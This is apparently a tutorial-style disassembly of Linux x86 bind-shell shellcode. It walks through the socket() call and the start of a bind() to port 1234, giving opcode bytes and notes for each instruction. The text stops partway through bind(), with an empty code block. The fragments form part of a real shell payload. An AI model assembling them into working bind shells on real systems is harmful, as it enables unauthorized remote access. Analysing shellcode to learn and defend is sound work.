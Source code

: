 <p style="text-align: justify;">An interesting fact is that in the case of the whole shellcode,  socket(), bind(), listen(), accept() and dup2() syscalls are called from the same, repeated socketcall() syscall.</p>

- For this purpose, the EBX, EAX and EDX registers are first cleaned. Using the mul instruction reduces the shellcode length by 1.
```nasm
00000000  31DB              xor ebx,ebx					
00000002  F7E3              mul ebx
```
<p style="text-align: justify;">Then, in the reverse order, the values of the above arguments are thrown onto the stack. In order:</p>
- The value 0 is pushed on the stack (IPPROTO_IP = 0)
```nasm
00000004  53                push ebx
``` 					
- EBX is incremented so that you can use it both when calling socket() (sys_socket = 1), and by placing the second argument on the stack
```nasm
00000005  43                inc ebx 
```				
- Value 1 is pushed on the stack (SOCK_STREAM = 1)
```nasm
00000006  53                push ebx 	
```			
- Value 2 is pushed on the stack (AF_INET = 2)
```nasm
00000007  6A02              push byte +0x2 
```			
- Stack pointer (ESP) is directed to the arguments of the socket() system call
```nasm
00000009  89E1              mov ecx,esp 
```				
- Socketcall() syscall is called, creating socket with our socket() syscall - sockfd
```nasm
0000000B  B066              mov al,0x66 
```				
- After syscall, the sockfd address will be stored in the EAX registry 
```nasm
0000000D  CD80              int 0x80	
```			
------------------------------------------------------------------------------------------------------------------------

### bind() ###

```nasm
0000000F  5B                pop ebx 		
00000010  5E                pop esi
00000011  52                push edx 					
00000012  68020004D2        push dword 0xd2040002		
00000017  6A10              push byte +0x10 			
00000019  51                push ecx 				
0000001A  50                push eax 				
0000001B  89E1              mov ecx,esp 		
0000001D  6A66              push byte +0x66 			
0000001F  58                pop eax 				
00000020  CD80              int 0x80 					
```
<p style="text-align: justify;">Then, bind() syscall will be called with the same method.</p>
- Popping value 2 into the ebx (sys_bind call)
```nasm
0000000F  5B                pop ebx
```
- 'Top of the stack' adjusting, equivalent to -> sub esp, 4
```nasm
00000010  5E                pop esi
```
- Pushing 0, which is the struct beginning (0, becouse of listening address, which is 0.0.0.0)
```nasm
```